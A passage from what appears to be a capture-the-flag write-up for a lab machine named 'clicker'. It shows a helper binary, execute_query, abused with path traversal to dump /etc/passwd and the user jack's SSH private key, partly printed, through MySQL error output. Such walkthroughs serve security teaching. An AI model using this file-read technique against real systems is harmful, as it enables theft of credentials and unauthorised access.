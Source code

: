 ```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
jack:x:1000:1000:jack:/home/jack:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
_rpc:x:115:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:116:65534::/var/lib/nfs:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
' at line 1

```

I can also get jack’s SSH private key:

```

www-data@clicker:/opt/manage$ ./execute_query 223 ../.ssh/id_rsa     
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
...[snip]...
LsOxRu230Ti7tRBOtV153KHlE4Bu7G/d028dbQhtfMXJLu96W1l3Fr98pDxDSFnig2HMIi
lL4gSjpD/FjWk9AAAADGphY2tAY2xpY2tlcgECAwQFBg==
-----END OPENSSH PRIVATE KEY---
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1

```
